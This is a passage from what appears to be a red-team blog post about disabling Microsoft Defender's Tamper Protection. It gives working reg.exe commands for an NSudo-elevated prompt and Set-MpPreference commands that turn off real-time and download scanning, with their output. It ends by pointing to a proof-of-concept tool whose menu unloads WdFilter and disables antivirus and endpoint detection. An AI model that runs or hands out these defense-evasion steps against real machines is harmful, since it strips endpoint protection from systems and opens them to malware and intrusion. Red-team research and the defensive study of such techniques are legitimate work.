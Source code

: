 Continue disabling Tamper Protection using reg.exe in the newly spawned NSudo elevated prompt as before by setting the `TamperProtection` subkey to `4/0`:

```
# Command prompt with elevated privileges
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> reg add "HKLM\SOFTWARE\Microsoft\Windows Defender\Features" /v TamperProtection /t REG_DWORD /d 4 /f
The operation completed successfully.
```

<a name="3-disable-defender-settings"></a>
#### 3. Disable Defender Settings

Finally, since Tamper Protection is now disabled leaving Defender / MDE settings vulnerable to change, disable AV and AMSI in a standard PowerShell Administrator prompt (SYSTEM / TrustedInstaller privileges are not mandatory) using the following commands:

```
# Disable Real-time protection altogether
PS C:\Users\Administrator> Set-MpPreference -DisableRealtimeMonitoring $true

# Only disables scanning for downloaded files or attachments
PS C:\Users\Administrator> Set-MpPreference -DisableIOAVProtection $true
```

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020221124183431.png)

*NOTE: Even though Tamper Protection is effectively disabled now, it takes a a reboot to render the same change in the "Security Settings" GUI Prompt.*

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020221124183731.png)


<a name="proof-of-concept"></a>
## Proof of Concept

A POC has been included, called Disable-TamperProtection which can be found on GitHub here: <https://github.com/AlteredSecurity/Disable-TamperProtection>

*NOTE: VC_redist.x64.exe (MSVC runtime) could be required on the target.*

Required elevated privileges to perform the attack have been incorporated in the POC by using the superUser project codebase as a reference for TrustedInstaller privilege impersonation. 

POC Video Demo: https://www.youtube.com/watch?v=aGTrjDxMSdU

The POC works in 3 steps (Admin privileges required):

```
C:\Users\User\Desktop> .\Disable-TamperProtection.exe
Sequential Usage: 1 --> 2 --> 3
1:      Unload WdFilter
2:      Disable Tamper Protection
3:      Disable AV/MDE
4:      Restore AV/MDE settings
```
